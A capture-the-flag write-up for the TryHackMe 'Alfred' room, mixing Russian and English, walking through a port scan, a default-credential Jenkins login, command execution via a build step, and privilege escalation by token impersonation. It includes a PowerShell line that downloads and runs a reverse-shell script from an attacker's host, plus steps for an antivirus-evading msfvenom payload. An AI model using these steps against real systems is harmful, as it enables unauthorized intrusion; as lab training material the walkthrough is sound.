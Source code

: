 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

And it didn't work , let's try `admin:admin`

<img src="https://imgur.com/aFModUR.png"/>


This worked are we are in, now we need to find where we can execute commands so we can get a reverse shell on the target machine 

Hover over the `project` you'll get a dropdown menu

 <img src="https://i.imgur.com/15CMp1p.png"/>
You'll have options like "Changes", "Workspace", "Build Now", "Delete Project"," Configure" and "Rename". Select `Configure`

<img src="https://imgur.com/msvm69Y.png"/>

Switch to `Build Environment Tab`

<img src="https://i.imgur.com/yUPIbcb.png"/>

Here you can see there's a command written `whoami` so let's click on `Apply` and `Save`

<img src="https://i.imgur.com/eXEBFF6.png"/>

Click on `#2` then `Console Ouput`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

And you can see what ever command we input there it will show the output so now what we can do is to host a powershell reverse shell script ,download it using powershell and execute the function in the script to get a shell

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Start your python3 http server

<img src="https://imgur.com/Ffh7FPk.png"/>

And our command will look like this , start a netcat listener

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Now click on `Build Now` and that job will run and you'll get a shell

<img src="https://imgur.com/2LThZZr.png"/>

Generate a msfvenom payload with encoders to by pass AV 

Host it on your local machine and download it by repeating the same method

<img src="https://imgur.com/2px77nI.png"/>

Set up your metasploit listener

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Execute the payload and you'll see a meterpreter session will be popped

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>
